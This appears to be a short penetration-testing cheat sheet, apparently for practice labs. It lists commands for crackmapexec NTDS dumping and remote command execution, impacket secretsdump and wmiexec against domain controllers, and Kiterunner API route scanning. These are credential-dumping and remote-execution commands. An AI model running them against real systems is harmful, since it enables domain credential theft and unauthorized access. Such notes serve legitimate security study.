 ```yaml
---
layout: default
title: Command References & Examples
has_children: false
nav_order: 5-2
---
```


# Windows
## crackmapexec
> SMB to obtain ntds file:
``` crackmapexec smb forest.example.local -u 'username' -p 'password' --ntds ```
> SMB to pass through a command:
``` crackmapexec smb 192.168.243.248 -u 'Administrator' -p 'Password' -x 'type C:\Users\Administrator\Desktop\proof.txt' ```

## impacket
### secretsdump module
``` impacket-secretsdump -just-dc htb.local/svc-account@10.10.10.161 ```
### wmiexec
``` impacket-wmiexec Administrator@$192.168.243.248 ```

# API Discovery
## Kiterunner
``` kr scan http://192.168.1.150:8888 -w /usr/share/wordlists/kiterunner/routes-large.kite ```
> scan without an authorization header
Options:
``` --fail-status-codes 400,401,404,403,501,502,426,411 ```
``` --delay 1s ```
Add an API Key:
``` kr scan http://10.0.2.4:8090 -w ~/usr/share/wordlists/kiterunner/routes-large.kite -H 'x-access-token: eyJH.eyJ1c.A1c' ```
> -H is 'headers' which passes the API key through in the x-access-token header
Proxy a replay through BurpSuite
```kr kb replay -w ~/usr/share//wordlists/kiterunner/routes-large.kite --proxy http://127.0.0.1:8080 "GET     200 [     10,    1,   1] http://10.0.2.4:8090/api/pictures/like 0cf684adc03406c50be603cfbc094373880973ae" ```


